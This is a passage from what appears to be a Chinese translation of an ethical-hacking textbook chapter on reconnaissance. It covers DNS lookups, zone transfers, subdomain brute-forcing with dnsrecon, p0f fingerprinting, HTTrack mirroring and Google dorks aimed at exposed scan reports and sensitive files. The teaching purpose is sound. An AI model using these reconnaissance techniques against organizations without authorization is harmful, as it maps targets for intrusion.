请求 C 是向 domain.com 的名称服务器询问 labs.domain.com 的 DNS 请求。由于 labs.domain.com 与 domain.com 是分开的，我们的缓存服务器收到的是另一个名称服务器。这意味着还需要再发出一次请求。我们现在处于询问 FQDN 的阶段。请求 D 发出，询问 www.labs.domain.com 的 IP 地址。权威服务器（即我们询问的服务器，因为它拥有该域的权威信息）会以 IP 地址进行响应。它实际上可能会返回多个 IP 地址，但就我们的目的而言，我们可以说它返回一个单一 IP。一旦缓存服务器获得 IP，它就会将响应发送回我们的系统，然后我们的系统可以发出请求 E，这不是 DNS 请求，而是向 Web 服务器发送的连接请求。

现在你已经掌握了从 DNS 服务器获取 IP 地址的过程，我们可以开始探讨可用于获取这些地址的工具了。

### 使用 Host

也许最容易使用的工具是 host。这是一个你会在大多数类 Unix 系统（包括 Linux 系统）上找到的程序。不幸的是，它没有 Windows 版本。如果你默认没有安装它，很可能可以自行安装。使用它非常简单。你只需将想要查询 IP 地址的主机名传递给 host，即可获得响应。你可以在以下代码中看到示例。

### 使用 host 进行 DNS 查找

```
$ host www.sybex.com
www.sybex.com has address 208.215.179.132
$ host www.sybex.com 4.2.2.1
Using domain server:
Name: 4.2.2.1
Address: 4.2.2.1#53
```

### 使用 host 进行 DNS 查找（续）

```
Aliases:
www.sybex.com has address 208.215.179.132
$ host 208.215.179.132
132.179.215.208.in-addr.arpa domain name pointer motorfluctuations.net.
132.179.215.208.in-addr.arpa domain name pointer managementcyclopedia.org.
132.179.215.208.in-addr.arpa domain name pointer smdashboard.wiley.com.
132.179.215.208.in-addr.arpa domain name pointer elansguides.com.
132.179.215.208.in-addr.arpa domain name pointer currentprotocols.net.
132.179.215.208.in-addr.arpa domain name pointer geographyencyclopedia.com.
132.179.215.208.in-addr.arpa domain name pointer separationsnow.info.
132.179.215.208.in-addr.arpa domain name pointer jcsm-journal.com.
132.179.215.208.in-addr.arpa domain name pointer literature-compass.com.
```

除了简单地将主机名查找为 IP 地址之外，我们还可以使用不同于定义为解析器的服务器。你可以在第二个请求中看到，我在命令行中添加了一个 IP 地址。这个 IP 地址是一个任何人都可以使用的缓存服务器。它由 GTE Internetworking 创建，至今已有几十年的历史。由于它也是一个任何人都可以使用的缓存服务器，我们可以向其发出请求，它会经历之前描述的相同过程，就好像它是我们自己的缓存服务器一样。

你还可以从示例中看到，在 host 208.215.179.132 中，你可以从 IP 地址查找主机名。每个地址块都会拥有一个属于它的 DNS 服务器。这意味着可以向地址块的 DNS 服务器发出请求，执行所谓的反向查找，即我们有一个 IP 地址，想要获取与之关联的主机名。正如你所见，通常一个 IP 地址会有多个关联的主机名。这可能发生在 Web 服务器托管虚拟服务器的情况——即 Web 服务器可以根据请求中的主机名来确定提供什么内容。对该 IP 地址的请求产生了 197 个响应，但出于空间考虑已被截断。

### 使用 nslookup

另一个可用的工具是 nslookup。它可以像 host 程序一样使用，意味着你可以直接运行 nslookup www.sybex.com 并获得响应。然而，nslookup 的一个优势是，你可以发出许多请求，而无需不断运行 nslookup。当你不带任何参数运行 nslookup 时，将进入 nslookup shell，在那里你与程序交互并发出请求。在以下代码中，你可以看到 nslookup 中的交互过程。我们最终要查找的信息与之前使用 host 获取的相同，但采用的方式不同。

### 使用 nslookup 进行名称解析

```
$ nslookup
> set type=ns
```


```
> sybex.com
Server:   192.168.86.1
Address:  192.168.86.1#53

Non-authoritative answer:
sybex.com   nameserver = jws-edcp.wiley.com.
sybex.com   nameserver = ns.wiley.co.uk.
sybex.com   nameserver = ns2.wiley.co.uk.
sybex.com   nameserver = sg-ns01.wiley.com.
sybex.com   nameserver = bri-ns01.wiley.com.
sybex.com   nameserver = ns.wileypub.com.

Authoritative answers can be found from:
> set type=A
> server ns.wileypub.com.
Default server: ns.wileypub.com.
Address: 12.165.240.53#53
> www.sybex.com
Server:   ns.wileypub.com.
Address:  12.165.240.53#53

Name:  www.sybex.com
Address: 208.215.179.132
```

与其仅仅从主机名查找 IP 地址，我起初使用了资源记录。DNS 支持多种资源记录，尽管最常见的是地址（A）记录。当你看到 set type=ns 时，我是在告诉 nslookup 发出后续请求，询问名称服务器（NS）记录。这将告诉我们给定域的权威名称服务器。一旦我获得了 NS 列表，我就可以将询问的服务器设置为其中一个 NS。这意味着，与其去我的缓存服务器，nslookup 将直接向权威服务器发出 DNS 请求，而无需进行任何递归搜索，因为它拥有所请求的信息。

### 使用 dig

程序 dig 是另一个可用于名称解析的实用程序。它也支持我们一直在做的相同操作，这意味着我们可以指定不同的名称服务器，并请求不同的资源记录。使用 dig 的示例可以在以下代码中看到。命令行包含请求的所有信息，包括资源记录类型、请求，以及 dig 应该将请求发送到的服务器。

### 使用 dig 进行 DNS 查找

```
$ dig mx sybex.com @ns.wileypub.com

; <<>> DiG 9.10.6 <<>> mx sybex.com @ns.wileypub.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 37337
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;sybex.com. IN MX

;; ANSWER SECTION:
sybex.com. 900 IN MX 40 alt3.emea.email.fireeyemail.com.
sybex.com. 900 IN MX 10 primary.emea.email.fireeyemail.com.
sybex.com. 900 IN MX 20 alt1.emea.email.fireeyemail.com.
sybex.com. 900 IN MX 30 alt2.emea.email.fireeyemail.com.

;; Query time: 278 msec
;; SERVER: 12.165.240.53#53(12.165.240.53)
;; WHEN: Wed Jul 04 21:03:11 MDT 2018
;; MSG SIZE rcvd: 149
```

响应比我们迄今看到的要详细得多。首先，我们可以看到 dig 运行时使用的参数。这些参数可以根据需要更改。在参数之后，你可以看到问题部分。这非常清楚地表明请求是什么。你可以将其与你请求的内容进行比较，以防基于命令行上指定的内容产生任何混淆。最后，我们得到了结果。

在此示例中，类型是 MX，即邮件交换器记录。DNS 服务器将响应一个列表，其中包含为该域在 DNS 中配置的所有邮件服务器。当你想要向某人发送电子邮件时，你的邮件服务器将发出 DNS 请求，询问应该为请求的域将邮件发送到哪个邮件服务器。邮件服务器旁边带有一个数字。最低数字是首选邮件服务器。如果出于任何原因，你无法连接到该邮件服务器，则继续下一个，依此类推，直到用完所有邮件服务器并不得不失败该消息。

使用 dig，我们可以完成与上面使用 host 和 nslookup 所做的完全相同的操作。在命令行上，你指示想要的资源记录。在我们的命令行（dig mx sybex.com @ns.wileypub.com）中，mx 是正在请求的资源记录，但同样可以是 A 或 NS。如果我们想要从主机名获取 IP 地址，它也可以是 PTR。记录类型之后是请求。由于我们正在查找邮件交换器记录，这将是一个域名，尽管你可以在此处发出 FQDN，你将获得 FQDN 的一部分的最后一个域的邮件交换器记录。最后，我们使用 @ 符号指示要询问的服务器。

## 区域传输

发出单个请求没问题，但这假设你了解一些信息。在大多数情况下，应用程序正在询问关于主机名的 IP 地址信息，以便应用程序能够正常运行。在我们的例子中，作为道德黑客，我们有时正在寻找属于某个域的所有主机名。这可以使用一种称为区域传输的东西来完成。区域传输在域中的多个 NS 之间合法使用，以保持服务器同步。你可能有一个域的主服务器，然后有多个从服务器。从服务器将向主服务器发出区域传输请求并相应地更新其记录。

理论上，我们可以使用该功能来请求域中的所有记录。但是，由于该功能，已经发生了两件事。首先，你遇到的大多数域不会允许除已配置的辅助 NS 之外的任何人进行区域传输。其次，许多公司使用一种称为分割 DNS 的东西。分割 DNS 是指外部世界被给予一个权威服务器地址，用于可由外部解析的主机，例如 Web 服务器和邮件服务器。企业网络内部的任何系统都将使用公司解析器，该解析器配置为企业域的权威服务器。这意味着它可以拥有许多其他系统，这些系统外部世界不知晓或无法访问，但内部系统可以解析并连接到它们。

为了发出区域传输请求，你可以使用我们已经在使用的实用程序，虽然还有其他的。例如，如果你想使用 dig 尝试区域传输，请求类型将是 axfr。你可以在以下代码中看到使用 dig 请求区域传输的示例。

## 使用 dig 进行区域传输

```
$ dig axfr domain.com @192.168.86.51

; <<>> DiG 9.10.6 <<>> axfr domain.com @192.168.86.51
;; global options: +cmd
domain.com.		86000	IN	SOA	ns.domain.com. root.domain.com. 1
604800 86400 24129200 604800
domain.com.		86000	IN	NS	ns.domain.com.
blagh.domain.com.		86000	IN	A	172.16.56.10
ftp.domain.com.		86000	IN	A	10.5.6.10
lab.domain.com.		86000	IN	A	172.16.56.7
ns.domain.com.		86000	IN	A	192.168.86.51
wubble.domain.com.	86000	IN	A	172.30.42.19
www.domain.com.		86000	IN	A	192.168.75.24
domain.com.		86000	IN	SOA	ns.domain.com. root.domain.com. 1
604800 86400 24129200 604800
;; Query time: 20 msec
;; SERVER: 192.168.86.51#53(192.168.86.51)
;; WHEN: Thu Jul 05 10:15:27 MDT 2018
;; XFR size: 9 records (messages 1, bytes 243)
```

## 暴力破解

由于区域传输通常不允许，你可能不得不依赖不那么优雅的解决方案来收集有关目标的信息。幸运的是，这里有一些工具可能有所帮助。其中一个是 dnsrecon，可用于提取 DNS 中的一些常见资源记录。此外，它还可以用于根据提供给程序的单词列表通过重复请求来识别主机名。在以下代码中，dnsrecon 用于执行暴力扫描。提供的单词列表包含若干可能的主机名。这些主机名被添加到提供的域名前面，然后检查生成的 FQDN。你可以看到扫描结果的一部分。

## 使用 dnsrecon 获取主机名

```
$ dnsrecon -d wiley.com -D /usr/share/wordlists/dnsmap.txt -t brt
[*] Performing host and subdomain brute force against wiley.com
[*]     A act.wiley.com 209.172.193.49
[*]     A adc.wiley.com 192.168.5.1
[*]     A ags.wiley.com 209.172.193.49
[*]     A api.wiley.com 209.172.192.180
[*]     A bcs.wiley.com 209.172.193.216
[*]     CNAME bpa.wiley.com internal-bpa-private-app-prod-elb-405571586
.us-east-1.elb.amazonaws.com
[*]     A internal-bpa-private-app-prod-elb-405571586.us-east-1.elb.amazonaws
.com 10.223.11.111
[*]     A internal-bpa-private-app-prod-elb-405571586.us-east-1.elb.amazonaws
.com 10.223.199.133
[*]     A bpm.wiley.com 10.6.1.241
[*]     A bps.wiley.com 10.6.2.91
[*]     A cct.wiley.com 209.172.194.98
[*]     CNAME cec.wiley.com d1hsh8hpdo3jj3.cloudfront.net
```

在某些情况下，查找 IP 地址会导致别名。在输出中，这些显示为规范名称（CNAME）响应。CNAME 指向另一个主机名，然后解析该主机名，直到获得 IP 地址。可能有多个层级的 CNAME 需要解析。其中一些 IP 地址是私有的，但其他一些是公共 IP 地址。可以追踪这些 IP 地址。


## 实践活动

通过本活动，你将了解如何开始对攻击面进行规模评估。选择一个域名，最好是你有一定关联的域名。使用前面章节中描述的某些技术，识别与该域名关联的一些主机。获得 IP 地址后，识别地址块及其所有者。记录与该域名关联的公司或组织拥有的所有 IP 地址和地址块。

## 被动侦察

可以被动收集大量信息。例如，观察网络报文头部（从第 3 层报文头到应用层报文头），可以发现一些有趣的信息。虽然手动捕获数据包并尝试阅读非常耗时，但有一个程序可以为我们完成大部分工作。该程序是 p0f，它会驻留并观察经过接口的网络流量，在流量通过时进行观察。不幸的是，p0f 不再像以前那样有用了。原因与 p0f 本身无关，而更多与 Web 服务器通常默认加密流量这一事实有关，这意味着 p0f 无法查看 HTTP 头部，从而无法识别服务器及其他有用信息。下面是 p0f 的一些输出示例。

### p0f 输出

```
.-- [ 192.168.86.45/46112 -> 8.43.72.22/443 (syn) ]-
|
|    client = 192.168.86.45/46112
|    os     = Linux 3.11 and newer
|    dist   = 0
|    params = none
|    raw_sig = 4:64+0:0:1460:mss*20,7:mss,sok,ts,nop,ws:df,id:0
|
`----

.-- [ 192.168.86.45/46112 -> 8.43.72.22/443 (mtu) ]-
|
|    client = 192.168.86.45/46112
|    link   = Ethernet or modem
|    raw_mtu = 1500
|
```

```
'.--[ 192.168.86.45/46112 -> 8.43.72.22/443 (uptime) ]-
|
| client = 192.168.86.45/46112
| uptime = 48 days 7 hrs 54 min (modulo 49 days)
| raw_freq = 1000.00 Hz
'---
```

```
'.--[ 192.168.86.45/33498 -> 52.94.210.45/443 (syn) ]-
|
| client = 192.168.86.45/33498
| os = Linux 3.11 and newer
| dist = 0
| params = none
| raw_sig = 4:64+0:0:1460:mss*20,7:mss,sok,ts,nop,ws:df,id:0
'---
```

```
'.--[ 192.168.86.45/33498 -> 52.94.210.45/443 (host change) ]-
|
| client = 192.168.86.45/33498
| reason = tstamp port
| raw_hits = 0,1,1,1
'---
```

这里你看到的大部分内容，如果你懂得如何读取数据包头部，其实都能自己确定。数据包捕获和分析程序 Wireshark 可以提供其中大部分信息。不过，一些有趣的细节包括识别系统运行时间。这是我本地网络上系统的运行时间，因此或许不如我们能轻松识别远程系统的运行时间那样有趣。你还可以看到，p0f 能够识别某些系统的操作系统类型。碰巧是 p0f 运行所在的系统，但它的判断是基于网络报文头部做出的，因为操作系统具有不同的“签名”，这些签名基于 IP 标识号的生成方式、TCP 序列号的生成方式、临时端口号的选择方式，以及 p0f 可以收集的其他信息。

在谈论被动侦察时，我们还应该看看一些声称能进行被动侦察的基于 Web 的工具。其中一个名为 Passive Recon，不过它多年未更新，可能已不可用。它可以作为 Firefox 的插件找到，但仅适用于某些版本的 Firefox。关于 Passive Recon 的一个好处是（尽管我不确定它是否能恰当地称为被动侦察），它将 DNS、whois 及相关工具作为任何链接的上下文菜单选项提供出来。你可以快速获取所选站点的信息。

如果 Passive Recon 不可用，你可以看看其他一些工具。其中一个（虽然行为不完全相同）是 R3con。这是一个 Firefox 插件。激活后，会打开一个如图 4.15 所示的窗口。你会看到多个选项卡，上面有编辑框，根据你想查询的内容期待输入。显示的选项卡是 whois 选项卡，它需要一个域名或 IP 地址，就像我们之前使用 whois 时一样。

### 图 4.15 使用 R3con 进行侦察



你可能并不使用 Firefox，但你可能会发现，对于安全测试而言，拥有大部分有用插件的浏览器是 Firefox。我过去曾开玩笑说，Firefox 是不够安全到允许插件访问并做各种坏事的浏览器。当然，这并不正确。插件在 Firefox 上比在其他浏览器上存在的时间更长，因此开发者社区也存在了一段时间。不过，其他浏览器（如 Chrome）对开发者能做什么限制更多，这也使 Firefox 更具吸引力。

Chrome 上可用的一个插件或扩展是 Recon。它很像 Passive Recon，因为在页面上右键单击链接时，它会提供一个上下文菜单。Recon 菜单让你能快速查询所选链接或单词的信息。例如，你可以进行 Google 或 Bing 搜索，Recon 会打开一个新选项卡或窗口，显示对所选内容的搜索结果。你还可以获取单词翻译、进行包裹追踪、搜索视频网站，并执行许多其他快速搜索，其中你的选择会被传递到你从菜单中选择的网站。

这类工具对于快速查找答案非常有价值，尽管它们不以观察网络流量的相同意义进行被动侦察。然而，这绝不是说你从这些工具获得的信息没有价值。任何能节省你时间，甚至可能让你接触到可以加入武器库的新技术的工具都是非常有价值的。尽管如此，仍有我们尚未看到的信息可以查看。

## 网站情报

要找到一家完全没有 Web 存在的公司将会很困难。当然，这是可能的，但不太可能。即使是小公司，也可能在 Facebook 上有一个页面来显示营业时间。最可能需要道德黑客服务来进行测试的公司，很可能会有一个网站。它甚至可能具有可编程元素，任何具有可编程元素的网站都有可能被攻破。Web 应用程序是对手常见的攻击点。这一切都在说，收集关于网站的情报最终可能会有所收获。

从协议栈的最底部开始，我们可以查看 Web 服务器是什么以及操作系统是什么。获取这些信息的一种方法是直接连接到 Web 服务器并向其发出请求。在下面的代码中，你可以看到对某个网站请求返回的 HTTP 头部。虽然我们没有得到实际的 Web 服务器名称，但确实获得了一些有趣的信息。

### 收集网站情报

```
HTTP/1.1 301 Moved Permanently
Server: CloudFront
Date: Fri, 06 Jul 2018 22:56:29 GMT
Content-Type: text/html
Content-Length: 183
Connection: keep-alive
Location: https://www.wiley.com/
X-Cache: Redirect from cloudfront
Via: 1.1 3fed6f40ae58f485d8018bd6900fcc88.cloudfront.net (CloudFront)
X-Amz-Cf-Id: S_FZ4mwkJ9wY_aw24hhF3yCVvnGNNrFU6t52DGNJyc740oiswv7Suv==
```

实际上，还有一种更简单的方法。网站 netcraft.com 会提供网站的托管历史记录。这将提供包含该 IP 地址的网段的所有者。它还会告诉你 Web 服务器运行的操作系统。在某些情况下，你将获得关于 Web 服务器版本及其他已启用模块的详细信息。我拥有一个存在很长时间的域名，图 4.16 显示了该域名的托管历史记录。2001 年，该网站托管在 OpenBSD 系统上（Netcraft 说是 NetBSD/OpenBSD，但因为是我自己托管的，我知道是 OpenBSD）。你还可以看到，当时它运行在 Apache 上。

### 图 4.16 Netcraft 托管历史

| 网段所有者 | IP 地址 | 操作系统 | Web 服务器 | 最后刷新时间 |
|---|---|---|---|---|
| 微软公司，One Microsoft Way，Redmond WA，美国 98052 | 40.108.146.42 | Windows Server 2012 | Microsoft-IIS/8.5 | 2017 年 1 月 31 日 |
| 微软公司，1 Microsoft Way，Redmond WA，美国 98052 | 104.146.136.50 | Windows Server 2012 | Microsoft-IIS/8.5 | 2017 年 1 月 25 日 |
| 微软公司，One Microsoft Way，Redmond WA，美国 98052 | 157.55.152.140 | 未知 | Microsoft-IIS/7.5 | 2014 年 2 月 3 日 |
| Comcast Cable Communications, LLC，1800 Bishops Gate Blvd，Mt Laurel NJ，美国 08054 | 173.162.202.18 | Linux | Apache | 2010 年 3 月 30 日 |
| Mesa Networks，Frontier CO，美国 80516 | 66.227.89.225 | Linux | Apache | 2007 年 9 月 18 日 |
| HostMySite，650 Pencader Drive，Newark DE，美国 19702 | 66.241.216.11 | Linux | Apache/1.3.29 Unix mod_ssl/2.8.16 OpenSSL/0.9.6 PHP/4.3.3 FrontPage/5.0.2.2623 | 2004 年 6 月 9 日 |
| LNH Inc.，260 Chapman Road，Suite 205，Newark DE，美国 19702 | 66.241.216.11 | Linux | Apache/1.3.27 Unix PHP/4.2.3 mod_ssl/2.8.12 OpenSSL/0.9.6d FrontPage/5.0.2.2510 | 2003 年 3 月 20 日 |
| Speakeasy Network，2304 2nd Ave，Seattle, WA 98121，美国 | 66.92.79.131 | - | Apache/1.3.19 Unix PHP/4.0.4pl1 mod_ssl/2.8.2 OpenSSL/0.9.6 | 2001 年 9 月 1 日 |
| Speakeasy Network，2304 2nd Ave，Seattle, WA 98121，美国 | 66.92.79.131 | NetBSD/OpenBSD | Apache/1.3.19 Unix mod_ssl/2.8.2 OpenSSL/0.9.6 | 2001 年 8 月 30 日 |

虽然历史记录很有趣，但了解网站当前使用的技术要相关得多。第一行是最近的记录。目前，该网站托管在 IIS 上，网段归微软所有。这表明该网站由微软托管，由于使用的是 IIS，操作系统应为 Windows Server。我们不知道的是 Windows Server 的具体版本。这些信息有用是因为我们可能能在漏洞方面占据优势。如果我们对版本有一些线索，就会更清楚托管网站的系统上存在哪些漏洞。

这只能让我们了解操作系统和 Web 服务器。如今，网站使用的技术要多得多。静态页面是用 HTML 编写的，但你更可能遇到的是动态网站。这意味着你可能会发现使用 PHP 或 Java 编程语言编写的网站。语言本身不足以提供健壮 Web 应用程序所需的深度功能。相反，网站程序员倾向于使用框架。框架可能存在漏洞，正如 Experian 数据泄露事件所显示的那样，该事件利用了 Java 应用程序使用的 Spring 框架中的漏洞。


我们又回到了浏览器插件的世界。一个非常好的插件是 Wappalyzer。
Wappalyzer 可以添加到 Chrome 和 Firefox 中。当您访问网站时，
Wappalyzer 将提供其识别的技术列表。这可能包括 Web 服务器、
编程框架、广告网络和跟踪技术。它并不总是能成功
识别出所有内容。访问 www.google.com 会显示 Google Web Server 和
一个分析框架。然而，访问 CNN 会显示许多不同的技术，
其中一些在图 4.17 中可以看到。我们没有在那里得到的是由 CNN 使用的 Web 服务器。
不过，考虑到网站上使用的所有其他技术，我们接受所获得的内容。

图 4.17 用于技术识别的 Wappalyzer



深入了解网页及所用技术的方法还有其他一些。其中一种是
Firebug。它适用于 Firefox，尽管也有适用于 Chrome 的 Firebug Lite。
Chrome。Firebug Lite 不具备完整 Firebug 的全部功能。但是，
在 Chrome 上，Google 提供了开发者工具。使用 Chrome 开发者工具或 Firebug，
您可以对正在查看的页面进行深入调查。首先，
您可以查看文档对象模型 (DOM) 及其所有组件。
您还可以选择页面中的不同 HTML 元素，并识别适用于该部分的样式和属性。
图 4.18 显示了使用 Chrome 开发者工具可以获取的部分信息。
此处检查的页面是一个 Google 搜索页面。
使用这样的工具，您可以通过查看页面的所有元素及其相互关系来更好地了解页面的运作方式。

图 4.18 Chrome 开发者工具



网站是复杂的实体。Chrome 开发者工具和 Firebug 只能一次查看一个页面。
您必须逐个挖掘每个页面，以调查它们及其功能。
您可能会发现镜像网站以便离线查看更容易。
将其本地存储后，您可以随意多次查看页面，而无需向远程服务器发出重复请求。
尽管这些请求不太可能引起怀疑甚至不太可能被注意到，但您正在留下痕迹。
您可以用来镜像网站的一种工具是 HTTrack。
在以下代码中，您可以看到运行 HTTrack 镜像网站的结果。
该程序基本上会对远程站点进行爬行，并将结果存储在提供的目录中。

## 使用 httrack 镜像站点

```
$ httrack

Welcome to HTTrack Website Copier (Offline Browser) 3.49-2
Copyright (C) 1998-2017 Xavier Roche and other contributors
```

### 使用 httrack 镜像站点（续）

```
To see the option list, enter a blank line or try httrack --help

Enter project name :MySite

Base path (return=/root/websites/) :

Enter URLs (separated by commas or blank spaces) :http://www.domain.com

Action:
(enter)   1  Mirror Web Site(s)
        2  Mirror Web Site(s) with Wizard
        3  Just Get Files Indicated
        4  Mirror ALL links in URLs (Multiple Mirror)
        5  Test Links In URLs (Bookmark Test)
        0  Quit

: 1

Proxy (return=none) :

You can define wildcards, like: -*.gif +www.*.com/*.zip -*img*.zip
Wildcards (return=none) :

You can define additional options, such as recurse level (-r<number>),
separated by blank spaces
To see the option list, type help
Additional options (return=none) :
```

一旦获得 HTML，您可以随意处理。您可以进行更改，审查页面中包含的所有脚本，并根据需要审查页面。
不过，并非所有技术都在网站中。组织拥有大量其他技术，通常可以使用各种工具和技术进行挖掘。

## 技术情报

最终，作为一名道德黑客，您的目标是识别您所工作的组织中的漏洞。
虽然 Web 界面是寻找漏洞的诱人场所，考虑到通过 Web 界面可获得的敏感数据有多么多，
但它不是唯一的漏洞查找位置。
但是，您仍然可以利用网站继续探索目标公司技术的边界。
迄今为止，我们已识别招聘网站和一些社交网站，以获取目标处技术使用情况的情报。
除此之外，我们可以查看几个其他领域。第一个是使用 Google dorks（也称为 Google hacking）
来帮助真正集中我们的 Web 搜索。
此外，我们可以寻找所谓物联网 (IoT) 的一部分的设备。

### Google hacking

Google hacking 是一项重要技能。它将改进搜索响应，为您节省大量点击不那么有价值的页面的时间。
一旦了解可用于真正缩小搜索范围的一些关键字，您将节省时间并变得更加高效。
Google hacking 技术将帮助您识别技术和漏洞。
除了 Google hacking 技术之外，还有 Google hacking 数据库，它是某人识别出的 Google dorks 的集合，用于搜索多种事物。
Dork 是使用 Google 关键字的字符串，旨在搜索有用的响应。

首先是 Google 关键字。如果您长期使用搜索引擎，可能熟悉使用引号和布尔术语，
以帮助确保您在响应中获得正确的字符串。
除此之外，Google 还使用位置关键字。例如，您可能只想在 URL 中查找特定字符串。
为了在 URL 中搜索，您将使用 inurl，如示例 inurl:index 所示。
此示例将查找 URL 中任何位置包含单词 index 的页面。
这通常可能是 index.html、index.php 或 index.jsp 之类的页面。
如果您想忽略 URL 并仅在文本中搜索，可以使用关键字 intext。

由于您为某个组织工作，您有一个域或可能只有一小撮域。
这意味着您会在某个时刻希望仅在这些域中搜索。
为此，您可以使用 'site' 关键字。
您还可能希望将结果限制为单一文件类型，例如可移植文档格式 (PDF) 文件或电子表格。
要将结果限制为一种文件类型，您将使用 'filetype' 关键字。
也许您正在寻找 Microsoft 网站上关于 Windows 10 的所有 PDF 文档。
图 4.19 显示了为此进行的搜索 (site:Microsoft.com filetype:pdf “Windows 10”) 以及一些结果。

图 4.19 Google hacking 结果



查找有用 Google dorks 示例的好地方是 Google Hacking Database (https://www.exploit-db.com/google-hacking-database/)。
Google Hacking Database (GHDB) 在多个类别中存储搜索术语，包括立足点、易受攻击的文件、错误消息和敏感目录。
创建这些有用的搜索字符串要求您不仅了解 Google hacking 关键字，
还要了解您正在寻找什么。
图 4.20 中列出了一些示例，其中搜索字符串正在查找网络或漏洞数据。
这意味着某人必须确切知道页面或 URL 中将包含哪些数据。
其中一些可以在图 4.20 中看到。

图 4.20 Google Hacking Database

| 日期 | 标题 | 摘要 |
| :--- | :--- | :--- |
| 2018-06-18 | intitle:"Malware Analysis Report" | intitle:"Malware Analysis Report" 此 dork 显示许多恶意软件分析报告，或... |
| 2018-06-07 | "Index of /ups.com/WebTracking" | * Google* dork 描述：Emotet 感染的域。Emotet 是一种银行木马恶意软件 progra... |
| 2018-05-17 | inurl:/Allitems.aspx?FolderCTID="" ... | IT 基础架构文档、设备配置和文档等其他有价值的信息.... |
| 2018-05-16 | inurl:/m/mini/localdomain/localhost.localdomain/ope... | 搜索由 Munin 生成的页面，该页面将包含敏感信息... |
| 2018-05-07 | intitle:"Statistics Report for HAProxy" ... | intitle:"Statistics Report for HAProxy" * "statistics report for pid" St... |
| 2018-04-11 | intext:"Powered by Nibbleblog" | 查找由 Nibbleblog CMS 驱动的博客。请合乎道德且负责任地使用。Dork ... |
| 2018-03-27 | ":: Arachni Web Application Security Report&&q... | ":: Arachni Web Application Security Report" 查找 Arachni 留下的报告!... |
| 2018-03-12 | "IBM Security AppScan Report" ext:pdf | "IBM Security AppScan Report" ext:pdf 此 dork 显示由 l... 创建的结果 |
| 2018-02-28 | intitle:"netsparker scan report" ext:pdf | intitle:"netsparker scan report" ext:pdf 查找 Netsparker (...) 留下的报告 |
| 2018-02-20 | intitle:"Burp Scanner Report" | "由 Burp Scanner 生成的报告" 查找... |

在 GHDB 上花费时间可以为您在目标中查找可能的问题提供大量弹药。
其中一些可能是盲目搜索，如果您不知道目标中预期什么。
当然，为了确保您仅在目标中搜索，需要将 site: 和域名添加到搜索参数中。
您可能从图 4.20 的 Microsoft 搜索中注意到的一件事是，当仅使用域时，
会返回每个可能的主机名。
如果您想仅在单个主机名（例如 www.microsoft.com）中搜索，则需要提供主机名。
仅提供域是另一种捕获您可能无法通过 DNS 搜索获得的其他主机名的方法。

### 物联网 (IoT)

您很可能听说过物联网。
物联网由设备组成，这些设备至少从传统的角度来看可能几乎没有或没有输入或输出功能。
如果设备可以运行通用应用程序，并且还有键盘和屏幕（例如计算机、平板电脑或智能手机），则它不属于物联网。
许多其他设备，例如联网恒温器、灯泡、风扇、冰箱以及许多其他基本单一用途的设备，都是物联网设备。
许多公司正在以不同的自动化能力利用这一点。


